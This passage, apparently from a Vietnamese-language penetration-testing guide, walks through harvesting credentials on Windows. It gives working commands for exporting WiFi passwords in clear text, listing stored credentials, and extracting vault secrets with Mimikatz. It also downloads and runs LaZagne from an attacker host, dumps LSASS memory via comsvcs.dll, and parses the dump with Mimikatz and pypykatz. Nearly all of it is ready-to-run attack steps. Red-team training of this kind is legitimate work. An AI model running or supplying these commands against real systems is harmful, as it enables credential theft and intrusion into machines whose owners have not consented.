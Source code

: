 #### Thu thập thông tin WiFi

```powershell
## Liệt kê các WiFi profile
netsh wlan show profile

## Export WiFi profile cụ thể
netsh wlan export profile name="WiFi-Name" key=clear folder=C:\temp
```

#### Thu thập Credentials từ Windows Credential Manager

```powershell
## Liệt kê credentials lưu trữ
cmdkey /list

## Sử dụng Mimikatz để trích xuất
vault::cred
vault::list
```


#### Kết hợp với LaZagne

[LaZagne](https://github.com/AlessandroZ/LaZagne) là công cụ để trích xuất mật khẩu lưu trữ cục bộ từ nhiều nguồn khác nhau.

```powershell
## Tải và chạy LaZagne
Invoke-WebRequest -Uri "http://attacker-ip/LaZagne.exe" -OutFile "C:\temp\LaZagne.exe"
C:\temp\LaZagne.exe all > C:\temp\lazagne_results.txt
```

### 4.4.5. Trích xuất từ Memory Dumps

#### Tạo Memory Dump của LSASS (Local Security Authority Subsystem Service)

```powershell
## Sử dụng Task Manager
## Tìm lsass.exe trong Task Manager > Details > Right-click > Create dump file

## Hoặc sử dụng comsvcs.dll (cần quyền Admin)
$lsassPid = Get-Process lsass | Select-Object -ExpandProperty Id
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump $lsassPid C:\temp\lsass.dmp full
```

#### Phân tích LSASS Dump

```powershell
## Sử dụng Mimikatz
sekurlsa::minidump C:\temp\lsass.dmp
sekurlsa::logonPasswords

## Trên máy attacker Linux với Pypykatz
pypykatz lsa minidump lsass.dmp
```
